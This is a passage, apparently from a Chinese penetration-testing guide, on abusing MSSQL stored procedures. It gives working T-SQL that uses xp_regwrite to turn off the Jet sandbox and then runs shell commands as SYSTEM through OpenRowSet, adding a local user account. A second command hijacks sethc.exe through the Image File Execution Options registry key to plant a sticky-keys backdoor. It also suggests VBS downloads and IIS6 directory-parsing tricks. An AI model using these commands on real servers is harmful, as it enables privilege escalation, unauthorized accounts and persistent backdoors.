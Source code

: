 当然这里只是一种思路，你完全可以用vbs来下载什么的

### 沙盒提权

```mssql
1. exec master..xp_regwrite 'HKEY_LOCAL_MACHINE','SOFTWARE\Microsoft\Jet\4.0\Engines','SandBoxMode','REG_DWORD',0;

2. exec master.dbo.xp_regread 'HKEY_LOCAL_MACHINE','SOFTWARE\Microsoft\Jet\4.0\Engines', 'SandBoxMode'

3. Select * From OpenRowSet('Microsoft.Jet.OLEDB.4.0',';Databasec:\windows\system32\ias\ias.mdb','select shell( net user itpro gmasfm /add )');
```

引用前辈们的话

> 1，Access可以调用VBS的函数，以System权限执行任意命令
> 2，Access执行这个命令是有条件的，需要一个开关被打开
> 3，这个开关在注册表里
> 4，SA是有权限写注册表的
> 5，用SA写注册表的权限打开那个开关
> 6，调用Access里的执行命令方法，以system权限执行任意命令执行SQL命令，执行了以下命令

### xp_regwrite

修改注册表 来劫持粘贴键 当然在2008数据库是不成立的 因为默认权限很低

```
exec master..xp_regwrite 'HKEY_LOCAL_MACHINE','SOFTWARE\Microsoft\WindowsNT\CurrentVersion\Image File Execution
Options\sethc.EXE','Debugger','REG_SZ','C:\WINDOWS\explorer.exe';

```



mssql众多的储存过程是我们利用的关键，还有很多可能没被提出，需要自己的发现，比如在遇到iis6的拿不了shell还有个上传可以跳目录，不妨试试xp_create_subdir建立个畸形目录解析。